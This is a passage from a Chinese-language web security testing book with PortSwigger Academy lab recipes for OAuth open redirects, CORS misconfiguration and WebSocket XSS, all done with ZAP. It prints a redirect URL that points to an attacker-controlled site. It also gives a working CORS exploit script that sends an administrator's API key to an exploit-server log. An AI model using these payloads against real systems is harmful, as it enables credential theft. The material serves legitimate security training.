在用户授权客户端应用程序后，攻击者可以通过 *OAuth 重定向攻击*（也称为 *开放重定向攻击*）将用户引导到恶意网站。这可以通过诱使用户点击包含恶意重定向 URI 的链接或更改客户端应用程序使用的重定向 URI 来实现。一旦用户被强制重定向到恶意网站，攻击者就可以获取访问令牌并利用它访问用户的资源。

这是一个简化的示例，展示了攻击者可能用来执行这种攻击的 URL 字符串：

```
 https://legitimate-oauth-provider.com/authorize?redirect_uri=https://attacker-controlled-website.com/redirect
```

这个示例的 URL 字符串中包含了客户端应用程序的重定向 URI、合法 OAuth 提供者的授权端点，以及一个指向攻击者网站的 `query` 参数。受害者点击链接后，攻击者的网站将充当重定向 URI，导致浏览器向合法的 OAuth 提供者网站提交带有该 URL 字符串的请求。

# 测试跨域资源共享

要了解 **跨域资源共享**(**CORS**) 漏洞，首先需要理解同源策略。同源策略的目的是限制网站访问来自不同源域的资源。虽然对于某些网站，同源策略是一个问题，但如今许多网站与子域或第三方网站进行交互，需要跨域例外。CORS 就是为了解决这个问题而创建的。

## 准备就绪

此实验要求拥有 PortSwigger Academy 账户和 ZAP，以拦截来自服务器到浏览器的请求和响应。实验网页应用的登录凭证如下：

+   **用户名`: **wiener`

+   **密码`: **peter`

## 如何操作...

在此配方中，实验引入了一个存在安全隐患的网站，它的 CORS 配置不安全，信任所有来源。为了解决这个问题，我们将使用 CORS 构建一个恶意的 JavaScript 函数，以获取管理员的 API 密钥，然后将代码上传到服务器。

按照以下步骤开始操作：

1.  使用浏览器代理至 ZAP 的 URL，登录 PortSwigger Academy 网站并启动实验

([`portswigger.net/web-security/cors/lab-basic-origin-reflection-attack`](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)).

1.  启动 ZAP，并确保你使用手动探索器并启动 Firefox 浏览器，或者启用浏览器扩展工具以代理该页面。

1.  一旦实验加载并进入应用程序的主页，点击 **我的账户**。使用提供的凭证登录并访问 **账户** 页面。

1.  查看历史记录并查看响应头（参见 *图 9.15*），其中会显示你通过 AJAX 请求 `/accountDetails` 获取的密钥。在同一响应中，你将看到 `Access-Control-Allow-Credentials` 头部。这表明可能存在 CORS 问题：



图 9.15 – API 密钥响应头

1.  接下来，右键点击请求并在 **手动请求编辑器** 中打开它。然后使用添加的头部重新提交请求（参见 *图 9.16*）：

    ```
     origin: https://zaprules.com
    ```

在这里，我们看到 `origin` 头部，输入的域名被反射回来了：



图 9.16 – 添加的来源头部

1.  你会看到我们输入的 `origin` URL 在 `Access-Control-Allow-Origin` 头中被反射回来：



图 9.17 – 显示来源的响应头

1.  在浏览器顶部的实验中，点击 `Go to exploit server` 并输入以下有效负载 HTML 脚本。确保将 `<random-string>` 替换为首次启动实验时生成的唯一实验 URL：

    ```
     <script>
    ```

    ```
     var req = new XMLHttpRequest();
    ```

    ```
     req.onload = reqListener;
    ```

    ```
     req.open('get','https://<random-string>.web-security-academy.net/accountDetails',true);
    ```

    ```
     req.withCredentials = true;
    ```

    ```
     req.send();
    ```

    ```
     function reqListener() {
    ```

    ```
     location='/log?key='+this.responseText;
    ```

    ```
     };
    ```

    ```
     </script>
    ```

在 *图 9.18* 中，我们看到实验室头部，显示了 `Go to exploit server` 按钮和 `Submit solution` 按钮，用于解决实验：



图 9.18 – 链接到漏洞利用服务器

1.  点击页面底部的**查看漏洞利用**。这将有助于确保漏洞利用有效，并且你已经到达了带有 API 密钥的日志页面，如*图 9.20*所示：



图 9.19 – 查看漏洞利用日志

1.  返回漏洞利用服务器，首先点击**存储**，然后点击**向受害者发送漏洞利用**以发送漏洞利用：



图 9.20 – 向受害者发送漏洞利用按钮

1.  发送漏洞利用后，点击**访问日志**，从`/log?key=`日志条目中提取管理员的 API 密钥。为了便于搜索，可以查看左侧列中的 IP 地址：



图 9.21 – 管理员的 API 密钥

1.  要完成，请使用位于实验网页顶部的**提交解决方案**按钮。无论是从主实验页面还是从漏洞利用服务器页面，都可以看到该按钮。

## 工作原理...

CORS 允许网站通过利用 HTTP 头部设置允许的来源，从其他网站请求资源。CORS 使用的头部是`Access-Control-Allow-Origin`和`Access-Control-Allow-Credentials`。`Access-Control-Allow-Origin`有三个值：一个是通配符`(*)`，表示允许所有来源，一个是`<origin>`，表示仅允许指定的来源，另一个是`null`，用于多种情况，其中之一是在网站接收跨来源重定向或使用**file:协议**时。`Access-Control-Allow-Credentials`头部仅接受`true`值，用于发送认证信息。

这种漏洞源于配置错误。配置错误可能包括但不限于允许所有来源或接受以特定字符串结尾的所有来源，如`zapproxy.com`。攻击者可能会注册`attackersitezapproxy.com`，并且这个来源将被接受。

CORS 漏洞的影响取决于设置的头部和网站提供的信息。如果`Access-Control-Allow-Credentials`设置为`true`，攻击者可以从网站中提取认证信息。

## 还有更多...

CORS 攻击可以与其他形式的攻击结合使用，以利用目标服务器中的其他漏洞。以下是可能与 CORS 结合使用的一些攻击类型：

+   `XSS`：攻击者可以利用 CORS 攻击绕过同源策略，将恶意代码注入到网站中，从而盗取网站访问者的敏感信息

+   `CSRF`：攻击者可以利用 CORS 攻击欺骗服务器，使其相信请求来自可信来源，从而允许攻击者代表真实用户执行操作

+   **钓鱼攻击**：攻击者可以利用 CORS 攻击在恶意网站上生成一个虚假的登录页面，然后通过 CORS 攻击在用户输入凭证后访问用户的个人信息。

攻击者通常通过修改请求头发起这些攻击，欺骗服务器使其认为请求来自可信的来源，生成虚假的登录页面，或注入恶意代码。攻击者还必须能够窃取身份验证令牌或获取正在暴露的敏感数据。

# 测试 WebSockets

WebSockets 是客户端和后端服务（如数据库或 API 服务）之间持续的双向通信通道。WebSockets 可以传输任意数量的协议，并且提供服务器到客户端的消息传递，无需轮询（即一个程序或设备反复检查其他程序或设备的状态的过程）。

## 准备工作

此实验需要一个 PortSwigger Academy 账户和 ZAP，用于拦截从服务器到浏览器的请求和响应。

在开始实验前，在 ZAP 中，进入 **工具**，**选项**，并向下滚动至 `WebSockets` 部分。在此，您必须启用 **在启用‘所有请求/响应断点按钮’时中断**。否则，您将无法捕获 WebSocket 请求并进行操作以完成此实验。

## 如何操作...

WebSockets 被用来实现这个在线商店中的实时聊天功能。

在本实验中，一位虚拟的支持代表，也就是机器人，将读取您发送的聊天消息请求。在解读响应时，我们将使用 WebSocket 消息在支持代表的浏览器中创建一个 `alert()` 弹出窗口。如果成功，它将自动完成实验。

按照以下步骤开始：

1.  使用浏览器代理至 ZAP，导航至网址并登录 PortSwigger Academy 网站以启动实验室（[`portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities`](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)）。

1.  在 ZAP 中，输入范围 URL 到手动浏览器并启动浏览器打开 Firefox。点击 **继续到` `您的目标**。

1.  在网页应用的右上角，点击 **实时聊天** 并发送一条随机聊天消息。

1.  在 ZAP 的 WebSockets **历史** 标签中，查找您之前在原始 WebSocket 消息中发送的聊天消息（参见 *图 9.22*）：



图 9.22 – WebSockets 历史标签

1.  返回应用中，发送另一条新消息，但这次包含一个小于符号：

    ```
     <
    ```

1.  回到 ZAP WebSocket 历史记录中，找到相应的 WebSocket 消息，并观察到小于符号已经在客户端发送之前被转化为 HTML 编码，如 *图 9.23* 所示：



图 9.23 – HTML 编码的小于字符

1.  再次发送另一条聊天消息，但这次设置一个断点，在消息传输过程中，操控请求使其包含以下载荷：

    ```
     
    ```

重要提示

如果网页应用程序的**实时聊天**功能停止工作或聊天显示**断开连接**，打开一个新的**实时聊天**继续该过程。

1.  浏览器将触发警报，支持代理客户端也会发生此操作：



图 9.24 – 一个 JavaScript 警报

在第一个截图中，你会看到警报框在客户端弹出。聊天消息在*图 9.25*中显示时，图像标签的 HTML 图标为空白。这是我们的恶意载荷：



图 9.25 – 在聊天中展示的成功攻击

## 它是如何工作的...

根据 RFC 6455，WebSocket 协议允许客户端在运行错误代码的组织元素中与远程主机进行双向通信，前提是远程主机已允许来自该代码的通信。这使用了基于来源的安全概念，广泛应用于在线浏览器。该协议以握手开始，然后将**传输控制协议**（**TCP**）与一些简单的消息框架进行分层。该技术的目标是为需要与服务器进行双向通信的浏览器应用程序提供一种方法，而无需启动多个 HTTP 连接（即，利用`XMLHttpRequest`或`<iframe>`和长时间轮询）。

重要提示

一些攻击可能会导致你失去连接，这时你需要创建一个新的连接。

几乎任何与 WebSocket 相关的网页安全漏洞都有可能发生：

+   用户输入处理不当时传送到服务器会导致漏洞，如 SQL 注入或**XML 外部实体**（**XXE**）注入

+   WebSocket 的盲点漏洞可能需要通过带外（OAST）方法来利用

+   如果通过 WebSocket 将攻击者控制的数据发送给其他应用程序用户，可能会导致 XSS 或其他客户端漏洞

## 还有更多...

在攻击 WebSocket 之前初始化你的方法时，查看 JavaScript 文件或页面源代码，查找 WebSocket 端点。在 JavaScript 代码中寻找以下内容：

+   `wss://`

+   `ws://`

+   `websocket`

WebSocket 的 URL 格式将是`wss://example.com`（`wss://`用于**安全套接字层**（**SSL**）连接）。类似于`https://`，以及`ws://`，就像`http://`一样。

接下来，要确定 WebSocket 端点是否在 ZAP 中接受来自其他源的连接，请检查连接。通过**手动请求编辑器**发送请求，并在`origin`头中指定你的源。如果连接成功，服务器将回复状态码`101`，且你的请求源将被反映或在响应的`origin`头中以通配符（*****）表示。

## 另见

*RFC6455: WebSocket* *协议*: [`www.rfc-editor.org/rfc/rfc6455`](https://www.rfc-editor.org/rfc/rfc6455)
